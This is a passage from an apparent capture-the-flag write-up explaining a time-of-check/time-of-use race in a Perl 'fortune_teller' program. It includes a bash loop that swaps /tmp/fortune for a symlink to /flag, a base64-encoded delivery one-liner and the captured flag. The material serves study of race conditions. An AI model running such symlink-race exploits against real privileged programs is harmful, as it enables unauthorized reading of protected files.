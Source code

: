 They are explicitly checking for symlinks now.

Shout-out to *Canlex* who identified first that there's a TOCTOU vulnerability here and came
up with the following code to exploit it:

```bash
#!/bin/bash

for i in {1..1000}
do
    rm "/tmp/fortune"
    echo "Quitting" > "/tmp/fortune"
    /usr/bin/fortune_teller "/tmp/fortune" & ln -sf "/flag" "/tmp/fortune"
done
```

What it does it create a standard file `/tmp/fortune` which is valid from the script's
perspective. It then executes the script and in parallel replaces `/tmp/fortune` with a 
symbolic link to `/flag`. Running this code many times in a loop, there's a chance that
for some executions the swap will happen after the program checked for the symlink
but before it actually read the file content:

```perl
if (not $fortuneFile =~ /.*fortune.*/) {
	die("$fortuneFile does not look like a fortune file. Quitting.");
}

# ============================ If swap happens here -> SUCCESS ==========================

# Check that there is no symlink trickery involved
my $resolvedFortuneFile = abs_path($fortuneFile);
if (not $resolvedFortuneFile =~ /.*fortune.*/) {
	die("$fortuneFile does not point to something that looks like a fortune file. Quitting.");
}
```

To load it to the remote shell, we can base64-encode it and run:

```console
echo IyEvYmluL2Jhc2gKCmZvciBpIGluIHsxLi4xMDAwfQpkbwogICAgcm0gIi90bXAvZm9ydHVuZSIKICAgIGVjaG8gIlF1aXR0aW5nIiA+ICIvdG1wL2ZvcnR1bmUiCiAgICAvdXNyL2Jpbi9mb3J0dW5lX3RlbGxlciAiL3RtcC9mb3J0dW5lIiAmIGxuIC1zZiAiL2ZsYWciICIvdG1wL2ZvcnR1bmUiCmRvbmU= | base64 -d > /tmp/exploit.sh && chmod +x /tmp/exploit.sh && /tmp/exploit.sh 2>&1 | grep -v Quitting | grep -v null | grep -v uninitialized | grep -v "No such file"
FLAG{R4c1ng_Lik3_A_pr0_t1M3_Tr4v377eR}
FLAG{R4c1ng_Lik3_A_pr0_t1M3_Tr4v377eR}
```